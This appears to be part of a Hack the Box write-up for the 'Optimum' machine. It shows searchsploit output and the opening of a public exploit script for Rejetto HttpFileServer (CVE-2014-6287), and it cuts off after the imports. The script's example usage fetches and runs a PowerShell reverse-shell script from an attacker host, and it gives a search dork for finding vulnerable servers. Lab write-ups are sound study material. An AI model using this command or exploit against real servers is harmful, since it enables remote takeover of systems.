 # Website

The website is an old looking file server:

![[Pasted image 20210613111026.png]]

I ran a [[05 - Enumeration#Gobuster|gobuster scan]] in the background while I poked around.

## Trying HFS Exploits

I tried a few different exploits here. As always I'll include the failed attempts so you can see the debugging process, but you can [[Writeups/Hack the Box/Boxes/Optimum/10 - Website#Working HFS Exploit|skip to the right one]].

My first thought was to try and see if I could upload a file or exploit a CVE, so I ran `searchsploit`. It had one result:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                                                            | windows/webapps/49125.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The exploit is really short:

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
	http = urllib3.PoolManager()	
```